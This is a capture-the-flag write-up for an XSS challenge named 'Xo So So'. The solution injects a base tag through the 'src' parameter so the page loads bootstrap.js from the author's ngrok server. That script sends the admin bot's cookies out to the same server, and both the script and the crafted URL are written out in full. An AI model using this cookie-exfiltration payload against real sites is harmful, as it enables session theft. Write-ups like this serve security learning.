




### Question

> Name: Xo So So
> 
> Couldn't get the question and CTF ended :\
> 
> Points: 500
> 
> Solves: ~10

### Solution

- We know it's XSS because the question name and description told us

- We found the admin bot request send page at /report which is good

- 

- 

- the XSS payload is pushed using the `src` GET param

- 

- 

- At the end of the page we see a script loading `/assets/js/bootstrap.js`which means we can redirect that to our server by using a `base`element to make all local urls use our vuln server

- 

- The admin gave us a hint that the flag is in the cookies

- So we craft the server by creating `/assets/js/bootstrap.js` file with this code 

- ```js
  location.href = `http://82f5-2a01-9700-1353-e600-a450-3321-262f-eaf4.eu.ngrok.io/${document.cookie}`
  ```

- Now we craft the url payload

- ```js
  http://3.90.185.122:8080/index.php?src='><base href='http://82f5-2a01-9700-1353-e600-a450-3321-262f-eaf4.eu.ngrok.io'>
  ```

- This means that the bot when visiting that page with the crafted payload it will load our vuln bootstrap script and make another request to out server with the cookie values

- VOILAAA!!!

- 

- The flag was `FLAG{CSP_W1Th_BaSE_Is_GooD_C0mBo}`
